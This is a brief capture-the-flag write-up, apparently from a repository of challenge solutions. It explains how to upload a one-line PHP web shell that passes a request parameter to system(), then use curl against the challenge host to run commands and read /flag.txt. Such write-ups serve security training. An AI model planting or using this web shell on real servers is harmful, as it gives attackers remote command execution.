 Upload a simple PHP web shell and gain RCE


shell.php
```
<?php

system($_REQUEST['cmd']);
```


Read the flag at `/flag.txt`


curl -d "cmd=cat /flag.txt" challenges.cybermouflons.com/uploads/shell.php
